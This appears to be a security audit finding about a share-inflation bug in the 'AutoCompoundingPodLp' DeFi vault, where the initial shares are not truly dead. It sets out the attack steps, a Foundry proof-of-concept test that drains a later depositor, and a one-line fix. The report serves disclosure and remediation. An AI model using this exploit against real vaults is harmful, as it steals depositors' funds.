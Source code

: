 Fast Khaki Raccoon

High

# Vault inflation attack in `AutoCompoundingPodLp` is possible due to incorrectly minting dead shares

### Summary

Vault inflation attack in `AutoCompoundingPodLp` is possible due to incorrectly minting dead shares

### Root Cause

The `AutoCompoundingPodLpFactory` tries to protect against an inflation attack by minting shares upon the deployment:
```solidity
    function _depositMin(address _aspAddy, IDecentralizedIndex _pod) internal {
        ...
        AutoCompoundingPodLp(_aspAddy).deposit(minimumDepositAtCreation, _msgSender());
    }
```
The issue is that this incorrectly mints the shares to the `msg.sender` which means that these are not actually __dead__ shares as they can be withdrawn at any time. This allows a vault inflation attack.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

This ideally happens in a batch transaction: 
1. Alice frontruns the deployment which mints her the minimum deposit of 1e3 shares and providing 1e3 assets due to the issue explained of minting to the sender instead of minting to a dead address
2. She then directly transfers an amount of a reward token which upon swapping during the reward processing, increases the total assets by 1, now the state is `1e3 + 1` assets and 1e3 shares
3. Alice withdraws all but 2 of her assets, which has the following formula: `(1e3 - 1) * 1e18 / (1e18 * (1e3 + 1) / 1e3) = 999` as it rounds up, now the state is 2 assets and 1 share
4. Alice can now, in a loop, deposit `2 * totalAssets - 1` which will mint her 1 share, then withdraw 1 asset which will burn her 1 share, this will exponentially grow the total assets while the share will stay at 1 (happens due to round downs and round ups)
5. After some iterations, the share value will be very high, causing a round down in the next depositor's deposit, resulting in a loss of funds for him and a profit for Alice

### Impact

Vault inflation causing loss of funds for the victim and a profit for the attacker

### PoC

Add the following function in `AutoCompoundingPodLp` as written in a comment in my POC, this is for simplicity purposes to mock the reward accrual explained in step 2 of the attack path:
```solidity
    function increase() public {
        _totalAssets += 1;
    }
```
Paste the following POC in `AutoCompoundingPodLp.t.sol`:
```solidity
function testShareInflation() public {
        address attacker = makeAddr('attacker');
        address asset = autoCompoundingPodLp.asset();
        deal(asset, attacker, 20e18);
        
        uint256 attackerInitialBalance = IERC20(asset).balanceOf(attacker);
        vm.startPrank(attacker);
        IERC20(asset).approve(address(autoCompoundingPodLp), type(uint256).max);
        autoCompoundingPodLp.deposit(1e3, attacker); // Mocking the factory initial share mint of 1e3
        vm.stopPrank();

        assertEq(autoCompoundingPodLp.totalAssets(), 1e3);
        assertEq(autoCompoundingPodLp.totalSupply(), 1e3);

        vm.startPrank(attacker);
        autoCompoundingPodLp.increase();
        IERC20(asset).transfer(address(autoCompoundingPodLp), 1);
        /* ADDED THE FOLLOWING FUNCTION IN THE `AutoCompoundingPodLp` for simplicity purposes as I don't want to deal with mocks and integrations, this will usually happen by directly transferring tokens to the contract and procesing the rewards. Note that even if the total assets increase by more than that, issue remains the same.
        function increase() public {
            _totalAssets += 1;
        }
        */

        assertEq(autoCompoundingPodLp.totalAssets(), 1e3 + 1);

        autoCompoundingPodLp.withdraw(1e3 - 1, attacker, attacker);

        assertEq(autoCompoundingPodLp.totalAssets(), 2);
        assertEq(autoCompoundingPodLp.totalSupply(), 1); // Achieved state of 2 assets and 1 share

        for (uint256 i; i < 40; i++) {
            uint256 assetsToDeposit = autoCompoundingPodLp.totalAssets() * 2 - 1;
            autoCompoundingPodLp.deposit(assetsToDeposit, attacker);

            autoCompoundingPodLp.withdraw(1, attacker, attacker);
        }
        vm.stopPrank();

        assertEq(autoCompoundingPodLp.totalAssets(), 12157665459056928802);
        assertEq(autoCompoundingPodLp.totalSupply(), 1); // 1 share is worth the above assets
        
        address victim = makeAddr('victim');
        deal(asset, victim, 20e18);
        uint256 victimBeforeBalance = IERC20(asset).balanceOf(victim);
        vm.startPrank(victim);
        IERC20(asset).approve(address(autoCompoundingPodLp), 20e18);
        autoCompoundingPodLp.deposit(20e18, victim);
        vm.stopPrank();

        assertEq(autoCompoundingPodLp.totalSupply(), 2); // Total supply is now 2 shares, user only received 1 share despite depositing more than the total assets (round down)

        vm.startPrank(attacker);
        autoCompoundingPodLp.redeem(1, attacker, attacker);
        vm.stopPrank();


        vm.startPrank(victim);
        autoCompoundingPodLp.redeem(1, victim, victim);
        vm.stopPrank();
        
        uint256 attackerAfterBalance = IERC20(asset).balanceOf(attacker);
        uint256 attackerProfit = attackerAfterBalance - attackerInitialBalance;
        assertEq(attackerProfit, 3921167270471535599); // PROFIT

        uint256 victimAfterBalance = IERC20(asset).balanceOf(victim);
        uint256 victimLoss = victimBeforeBalance - victimAfterBalance;
        assertEq(victimLoss, 3921167270471535599); // LOSS
    }
```

### Mitigation

```diff
    function _depositMin(address _aspAddy, IDecentralizedIndex _pod) internal {
        address _lpToken = _pod.lpStakingPool();
        IERC20(_lpToken).safeTransferFrom(_msgSender(), address(this), minimumDepositAtCreation);
        IERC20(_lpToken).safeIncreaseAllowance(_aspAddy, minimumDepositAtCreation);
-       AutoCompoundingPodLp(_aspAddy).deposit(minimumDepositAtCreation, _msgSender());
+       AutoCompoundingPodLp(_aspAddy).deposit(minimumDepositAtCreation, address(0xdead));
    }
```